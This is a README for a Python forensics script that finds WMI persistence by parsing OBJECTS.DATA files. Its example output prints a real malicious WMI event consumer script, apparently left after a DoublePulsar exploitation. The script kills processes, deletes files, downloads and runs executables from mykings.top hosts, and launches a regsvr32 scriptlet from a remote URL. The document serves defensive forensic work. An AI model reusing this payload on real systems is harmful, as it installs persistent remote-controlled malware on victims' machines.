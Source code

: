 # WMI_Persistence
A repo to hold some scripts pertaining WMI (Windows implementation of WBEM) forensics

## Usage:
python WMIPers.py Name_of_File (Usually OBJECTS.DATA)

## Description:
This script is meant to find WMI persistence by directly parsing the contents of OBJECTS.DATA files. It doesn't require any particular dependencies other than standard Python libraries. 
The script should work fine on both Windows and Linux systems. 

## Example: Finding malicious persistence script installed after exploiting DoublePulsar SMBv1.0 vulnerability
### First we run the script
python WMIPers.py OBJECTS.DATA

### It will retrieve the general metadata
--> Binding 48 | FilterToConsumerType: ActiveScriptEventConsumer | EventFilterName: uckmm2_filter | EventConsumerName: uckmm2_consumer

### And then present the contents of the EventConsumers and EventFilters

--> EventFilter: select * from timerevent where timerid="uckmm2_itimer"

--> EventConsumer: var toff=3000;var url1 = "http://wmi.mykings.top:8888/kill.html";http = new ActiveXObject("Msxml2.ServerXMLHTTP");fso = new ActiveXObject("Scripting.FilesystemObject");wsh = new ActiveXObject("WScript.Shell");http.open("GET", url1, false);http.send();str = http.responseText;arr = str.split("\r\n");for (i = 0; i < arr.length; i++) { t = arr[i].split(" "); proc = t[0]; path = t[1]; dele = t[2]; wsh.Run("taskkill /f /im " + proc, 0, true);if (dele == 0) { try { fso.DeleteFile(path, true); } catch (e) {} } };var locator=new ActiveXObject("WbemScripting.SWbemLocator");var service=locator.ConnectServer(".","root/cimv2");var colItems=service.ExecQuery("select * from Win32_Process");var e=new Enumerator(colItems);var t1=new Date().valueOf();for(;!e.atEnd();e.moveNext()){var p=e.item();if(p.Caption=="rundll32.exe")p.Terminate()};var t2=0;while(t2-t1<toff){var t2=new Date().valueOf()}var pp=service.get("Win32_Process");var url="http://wmi.mykings.top:8888/test.html",http=new ActiveXObject("Microsoft.XMLHTTP"),ado=new ActiveXObject("ADODB.Stream"),wsh=new ActiveXObject("WScript.Shell");for(http.open("GET",url,!1),http.send(),str=http.responseText,arr=str.split("\r\n"),i=0;arr.length>i;i++)t=arr[i].split(" ",3),http.open("GET",t[0],!1),http.send(),ado.Type=1,ado.Open(),ado.Write(http.responseBody),ado.SaveToFile(t[1],2),ado.Close(),1==t[2]&&wsh.Run(t[1]);pp.create("regsvr32 /s shell32.dll");pp.create("regsvr32 /s WSHom.Ocx");pp.create("regsvr32 /s scrrun.dll");pp.create("regsvr32 /s c:\\Progra~1\\Common~1\\System\\Ado\\Msado15.dll");pp.create("regsvr32 /s jscript.dll");pp.create("regsvr32 /u /s /i:http://js.mykings.top:280/v.sct scrobj.dll");pp.create("rundll32.exe c:\\windows\\debug\\item.dat,ServiceMain aaaa");

## References: 
The script was inspire in the work of Graeber about WMI persistence mechanisms:
https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf

## Future Improvements: 
1) Scan all hosts in your network via SMB using the script
2) Export results to CSV
3) Scan multiple WMI Databases inside a folder
4) Extract more forensically relevant info from OBJECTS.DATA

